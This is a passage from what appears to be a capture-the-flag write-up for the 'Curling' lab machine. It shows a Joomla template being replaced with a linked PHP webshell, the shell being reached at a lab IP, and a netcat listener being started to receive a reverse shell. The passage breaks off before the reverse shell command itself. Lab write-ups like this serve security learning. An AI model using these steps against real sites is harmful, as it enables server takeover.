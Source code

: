 Copy/paste the webshell ([https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php](https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php))

![Template replace by webshell](/assets/imgs/curling/paste.PNG)

Save the template, then go to : http://10.10.10.150/templates/beez3/

![Webshell](/assets/imgs/curling/webshell_whoami.PNG)

From here, I want a reverse shell, I think it's better than a webshell, so launch a listener :

```
nc -lvp 1234
```

Then from the webshell launch a reverse shell connecting to the listener :
